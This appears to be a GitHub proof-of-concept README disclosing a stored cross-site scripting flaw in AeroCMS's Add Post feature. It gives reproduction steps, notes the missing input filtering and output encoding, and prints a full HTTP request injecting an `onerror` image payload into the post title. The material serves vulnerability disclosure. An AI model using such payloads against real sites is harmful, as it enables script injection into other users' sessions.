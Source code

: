 # AeroCMS-Add_Posts-Stored_XSS-Poc
## Step to Reproduct
* Login to admin panel -> `Posts` -> `Add Posts` -> `Post Title` -> inject payload `<img/src/onerror=prompt(10)>` -> The XSS will trigger when clicked `Edit Post` button
### Exploit
![image](https://user-images.githubusercontent.com/79050415/156887124-fb539ece-2ad1-4ebd-9ce9-6fcfd688b36e.png)
![image](https://user-images.githubusercontent.com/79050415/156879926-c7009ae0-54b5-4b5c-a49f-6c693ce8f2e5.png)
* `add_post.php`
![image](https://user-images.githubusercontent.com/79050415/156879687-273b903a-195c-4313-be7a-b4053ecae897.png)
When inserting into the database, the input is not filtered out of html characters
* `post.php`
![image](https://user-images.githubusercontent.com/79050415/156879786-ed53b64e-cf92-4160-aacd-32440b795d32.png)
Even when displaying, the entity cannot be properly encoded
-------------------------------------------------------------
# POC
```c POST http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=26 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------85448121341942511952219062291
Content-Length: 1101
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=26
Cookie: Phpstorm-6b6ba5ee=79a50460-3b02-4cde-a5a4-ff6883c16a7b; PHPSESSID=ndh6ks953tmha1ps8cfp4bplf2
Upgrade-Insecure-Requests: 1

-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_title"

<img/src/onerror=prompt(10)>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_category_id"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_user"

admin
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_status"

published
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_tags"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_content"

<p>111</p>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="update_post"

Edit Post
-----------------------------85448121341942511952219062291--
```
POC VIDEO
https://drive.google.com/file/d/1kMGPBLKgefvKZj34QxDlPTxXdcT0kRR_/view?usp=sharing

